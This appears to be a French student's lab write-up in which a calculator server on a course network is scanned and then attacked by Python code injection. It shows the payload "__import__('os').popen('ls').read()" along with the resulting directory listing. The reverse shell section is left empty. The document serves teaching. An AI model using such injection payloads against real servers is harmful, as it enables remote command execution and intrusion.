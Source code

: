 # 1. Reconnaissance

🌞 Déterminer

#### 🦈TP5_Determiner.pcapng 


🌞 Scanner le réseau

trouvez une ou plusieurs machines qui héberge une app sur ce port

### 🦈p5_nmap.pcapng 

🌞 Connectez-vous au serveur

```
tom@Tom:~/Documents/B2-Reseau$ /bin/python3 /home/tom/Documents/B2-Reseau/tp5/client.py

```
C'est une calculattrice 

🌞 Injecter du code serveur

```

    userMessage = "__import__('os').popen('ls').read()"

```
```
tom@Tom:~/Documents/B2-Reseau$ /bin/python3 /home/tom/Documents/B2-Reseau/tp5/client.py
'afs\nbin\nboot\ndev\netc\nhome\nlib\nlib64\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nva
```
# 3. Reverse shell


🌞 Obtenez un reverse shell sur le serveur
```

```

